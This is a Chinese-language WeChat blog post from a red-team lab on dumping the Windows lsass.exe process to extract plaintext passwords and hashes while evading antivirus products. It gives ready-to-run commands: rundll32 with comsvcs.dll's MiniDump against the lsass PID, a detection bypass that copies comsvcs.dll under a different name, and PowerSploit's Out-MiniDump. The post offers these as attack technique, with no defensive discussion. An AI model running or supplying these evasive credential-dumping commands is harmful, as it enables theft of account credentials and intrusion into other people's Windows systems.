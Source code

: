 ##  免杀转储lsass进程技巧

原创 Tubai  [ 花指令安全实验室 ](javascript:void\(0\);)

**花指令安全实验室** ![]()

微信号 junk-code

功能介绍 专注于红蓝安全攻防研究的优质平台

____

__

收录于话题

在渗透测试中，最常用的方法是通过dump进程lsass.exe，从中获得明文口令和hash,今天分享两个免杀转储lsass方式，目前亲测可过某60 or
某绒。  
  
第一种：  
comsvcs.dll，系统自带。

在原理上都是使用API MiniDumpWriteDump，通过comsvcs.dll的导出函数MiniDump实现dump内存。

  *   *   *   *   *   *   *   *   * 

    
    
    BOOL MiniDumpWriteDump(  HANDLE                            hProcess,  DWORD                             ProcessId,  HANDLE                            hFile,  MINIDUMP_TYPE                     DumpType,  PMINIDUMP_EXCEPTION_INFORMATION   ExceptionParam,  PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam,  PMINIDUMP_CALLBACK_INFORMATION    CallbackParam);

 **注意权限的问题：**

在dump指定进程内存文件时，需要开启SeDebugPrivilege权限。管理员权限的cmd下，默认支持SeDebugPrivilege权限，但是状态为Disabled禁用状态。  

![](https://gitee.com/fuli009/images/raw/master/public/20210817101653.png)

这里直接在cmd下执行rundll32的命令尝试dump指定进程内存文件时，由于无法开启SeDebugPrivilege权限，所以会失败。

 **解决方式：  
**

管理员权限的powershell下，默认支持SeDebugPrivilege权限，并且状态为Enabled

![](https://gitee.com/fuli009/images/raw/master/public/20210817101705.png)

可以通过powershell执行rundll32的命令实现。  
首先查看lsass.exe进程PID:  
  

![]()

命令格式：

  * 

    
    
    rundll32.exe comsvcs.dll MiniDump <lsass PID> <out path> full

直接利用发现会被拦截：  

  * 

    
    
    rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 564 lsass.dmp full

![](https://gitee.com/fuli009/images/raw/master/public/20210817101706.png)

  

简单的绕过思路：

copy一下comsvcs.dll并命名为随意名字，例如tubai.dll  

  *   * 

    
    
    copy C:\windows\System32\comsvcs.dll tubai.dllrundll32.exe tubai.dll, MiniDump 564 lsass.dmp full

![](https://gitee.com/fuli009/images/raw/master/public/20210817101707.png)

如图，成功转储了lsass  
第二种：  
PowerSploit 的一个模块Out-MiniDump是一个基于 Powershell 的渗透工具包，可以选择创建进程的完整内存转储。  
导入  

  * 

    
    
    Import-Module Out-MiniDump

执行  

  * 

    
    
    Get-Process lsass | Out-Minidump

![](https://gitee.com/fuli009/images/raw/master/public/20210817101708.png)

总结：

转储姿势很多，应该一起向编写一个程序来手动转储 LSASS 进程才是硬道理。

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

免杀转储lsass进程技巧

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

